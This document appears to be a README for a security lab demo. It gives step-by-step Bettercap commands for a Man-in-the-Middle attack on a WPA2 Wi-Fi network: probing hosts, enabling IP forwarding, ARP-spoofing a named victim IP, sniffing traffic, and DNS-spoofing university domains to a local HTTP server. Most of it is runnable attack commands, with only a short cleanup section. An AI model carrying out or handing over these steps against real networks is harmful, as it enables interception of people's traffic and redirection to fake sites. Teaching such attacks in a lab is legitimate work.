


# Man in the Middle (MitM)

This demo shows how to achieve a successful Man-in-the-Middle attack leveraging ARP Spoofing in a WIFI WPA2 network.

This Demo is a continuation of [WIFICracking](../WIFICracking/README.md) demo. Your Kali Network has to be connected to the network to intercept the traffic of our victim

## Attack!

1. First, connect the Kali VM to the target network

```bash
sudo nmtui # Use the network manager
sudo ip link set eth0 down # Disable Eth0

ping google.es # make sure you are connected to the network
```

2. Start Bettercap and perform a network probe to find potential targets

```bash
sudo bettercap --iface wlan0

> net.probe on
> net.show
```



3. We found our target! `192.168.254.102`, now we will perform an ARP Spoofing, but before we need to configure Kali VM to forward requests to the gateway comming from our target. Otherwise, our victim will lack from internet connectivity

> Run the following commands in a new shell

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
```

4. Configure and start the ARP Spoofing with bettercap

```bash
> set arp.spoof.targets 192.168.254.102
> arp.spoof on
```

5. Start sniffing the traffic to verify the MitM attack is successful

```bash
> set net.sniff.verbose false
> net.sniff on
```


6. Now, let's have some fun :) Using DNS Spoofing we will redirect our victim queries to a local http service hosted in our Kali VM

7. Start the HTTP Server with Python in a new shell

```bash
cd server
python3 -m http.server 80 --bind 0.0.0.0
``` 

8. Configure and start the dns spoofing agent

```bash
set dns.spoof.domains upc.edu,test.edu
set dns.spoof.addresses 192.168.254.186 # IP Kali VM
dns.spoof on
```



> Bettercap reports fake dns responses are being generated whenever the victim browse to one off the spoofed domains. Redirecting the query to the local HTTP service


## Cleanup

* Remove the routing rules

```bash
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -D POSTROUTING -o wlan0 -j MASQUERADE
```
